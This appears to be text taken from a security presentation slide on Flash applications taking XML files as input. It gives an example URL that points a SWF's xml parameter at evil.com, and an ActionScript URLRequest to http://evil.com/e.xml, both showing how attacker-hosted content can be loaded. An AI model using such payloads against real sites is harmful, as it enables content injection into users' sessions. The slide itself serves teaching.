

XML
XML file as input
http://foo.com/f.swf?xml=//evil.com/e.xml
XML is the most preferable data format of Flash
new URLRequest('http://evil.com/e.xml')